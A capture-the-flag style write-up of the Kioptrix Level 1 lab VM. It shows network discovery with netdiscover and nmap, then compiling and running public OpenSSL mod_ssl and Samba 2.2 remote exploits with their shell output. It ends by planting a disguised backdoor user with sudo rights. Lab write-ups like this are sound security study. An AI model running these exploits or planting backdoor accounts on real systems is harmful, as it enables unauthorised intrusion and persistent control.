 This is the way I solved the Kioptrix Level 1

First from kali host:

```kali@me:>netdiscover -i eth0```

The netdiscover command outputs a nicer result respect to:

```nmap -sn 192.168.1.1-255```

resulting in:

Currently scanning: 192.168.51.0/16   |   Screen View: Unique Hosts                                                       `            `
22 Captured ARP Req/Rep packets, from 14 hosts.   Total size: 1284                                                         
_____________________________________

 IP            At MAC Address     Count     Len  MAC Vendor / Hostname     
 ...                                                            
 192.168.1.104   9e:86:37:32:02:d7      1      60  Unknown vendor Currently scanning: 192.168.51.0/16 

So target IP address is: 192.168.1.104 

Now we need to enumerate which services are running on the target 92.168.1.104:

The easiest and best command one can immagine:

sudo nmap -sV -O 192.168.1.104

The output is clean and clear:

Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-04 13:16 EST
Nmap scan report for 192.168.1.104
Host is up (0.0037s latency).
* Not shown: 994 closed ports
* PORT      STATE SERVICE     VERSION
* 22/tcp    open  ssh         OpenSSH 2.9p2 (protocol 1.99)
* 80/tcp    open  http        Apache httpd 1.3.20 ((Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b)

* 111/tcp   open  rpcbind     2 (RPC #100000)
* 139/tcp   open  netbios-ssn Samba smbd (workgroup: MYGROUP)
* 443/tcp   open  ssl/https   Apache/1.3.20 (Unix)  (Red-Hat/Linux) mod_ssl/2.8.4 OpenSSL/0.9.6b
* 32768/tcp open  status      1 (RPC #100024)
* MAC Address: 9E:86:37:32:02:D7 (Unknown)
* Device type: general purpose
* Running: Linux 2.4.X
* OS CPE: cpe:/o:linux:linux_kernel:2.4
* OS details: Linux 2.4.9 - 2.4.18 (likely embedded)
* Network Distance: 1 hop

* To note that OpenSSL/0.96b is very old.... associated with mod_ssl/2.8.4
* Also note that we have a samba service on port 139... but we don't know the version so not a good starting point for an attack!


Looking in searchsplit:
> searchsploit OpenSSL 0.9.6

returns:

 Exploit Title:                                                                                   


Apache mod_ssl OpenSSL < 0.9.6d / < 0.9.7-beta2 - 'openssl-too-open.c' SSL2 KEY_ARG Overflow     
| exploits/unix/remote/40347.txt

So the exploit 40347.txt is interesting because it offers root shell through buffer Overflow exploit

Looking at the bottom of the content of the 40347.txt file:

less /usr/share/exploitdb/exploits/unix/remote/40347.txt 

we see:

https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/40347.tar.gz (openssl-too-open.tar.gz)

so:
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/40347.tar.gz 

expand the tar archive:
> tar xvf 40347.tar.gz

> cd openssl-too-open

> make

The make returns quite some issues in the build process:

```c++
gcc -g -O0 -Wall -c main.c
In file included from main.c:26:
ssl2.h:30:24: error: ‘SSL2_MAX_CONNECTION_ID_LENGTH’ undeclared here (not in a function); did you mean ‘SSL_MAX_SSL_SESSION_ID_LENGTH’?
   30 |  unsigned char conn_id[SSL2_MAX_CONNECTION_ID_LENGTH];
      |                        ^~~~~~~~~~~~~~~~~~~~~~~~~~~~~
      |                        SSL_MAX_SSL_SESSION_ID_LENGTH
ssl2.h:38:2: error: unknown type name ‘RC4_KEY’
   38 |  RC4_KEY* rc4_read_key;
      |  ^~~~~~~
ssl2.h:39:2: error: unknown type name ‘RC4_KEY’
   39 |  RC4_KEY* rc4_write_key;
      |  ^~~~~~~
make: *** [Makefile:28: main.o] Error 1

```

First you need to install:

>  yum install -y openssl-devel

The author of the link:
https://medium.com/@snowshoe/how-to-compile-openfuckv2-c-69e457b4a1d1
made a very good guide to solve all the compilation issues.

THe only thing you still have to update is that the l gcc flags need to be at the end of the command:

> gcc -g -o openssl-scanner scanner.o ssl2.o -lcrypto -lssl

Now it is time to run the exploit:
> ./openssl-too-open -a 0x09 -p 443 -c 40 -m 50 -v 192.168.1.104

```
The result is:
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=48(apache) gid=48(apache) groups=48(apache)
 10:34pm  up 13:02,  0 users,  load average: 0.00, 0.00, 0.09
USER     TTY      FROM              LOGIN@   IDLE   JCPU   PCPU  WHAT
bash-2.05$ 
bash-2.05$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
```

Now we are apache, so we need to find a way to do privilege escalation.

We are now inside the target box and we can have a look again at that Samba service on port 139. 
We try to retrieve more information about the Samba version. To achieve this, we run a pretty standard command:

> smbclient -N -L \\\\127.0.0.1

---
smbclient -N -L \\\\127.0.0.1
added interface ip=192.168.1.104 bcast=192.168.1.255 nmask=255.255.255.0
Anonymous login successful
Domain=[MYGROUP] OS=[Unix] Server=[Samba 2.2.1a]

	Sharename      Type      Comment
	---------      ----      -------
	IPC$           IPC       IPC Service (Samba Server)
	ADMIN$         Disk      IPC Service (Samba Server)
---

So we have now a version: Samba 2.2.1a

Now it is time to go back to searchsploit:

> searchsploit samba 2.2

Among all the results we choose:

> Samba 2.2.x - Remote Buffer Overflow  exploits/linux/remote/7.pl

But after several tries, we do not achieve any root shell, so we move to the second option:

> Samba < 2.2.8 (Linux/BSD) - Remote Code Execution  exploits/multiple/remote/10.c

>  gcc -g -o samba2root 10.c

The compilation is smooth, I am surprised :-))

Now time to try it:

./samba2root -b 0 -c 192.168.1.26 -p 139 -v 192.168.1.104

---
samba-2.2.8 < remote root exploit by eSDee (www.netric.org|be)
--------------------------------------------------------------
+ Verbose mode.
+ Bruteforce mode. (Linux)
+ Host is running samba.
+ Using ret: [0xbffffed4]
+ Using ret: [0xbffffda8]
+ Worked!
--------------------------------------------------------------
*** JE MOET JE MUIL HOUWE
Linux kioptrix.level1 2.4.7-10 #1 Thu Sep 6 16:46:36 EDT 2001 i686 unknown
uid=0(root) gid=0(root) groups=99(nobody)
----

So we are root now :-))

Now time to implant a new user with sudo powers so we do not have to work too much again:

> /usr/sbin/adduser mntd  (we choose something that seems plausible)
> passwd mntd
> echo -e "splunk\tALL(ALL) ALL" >> /etc/sudoers

Here you are :-)
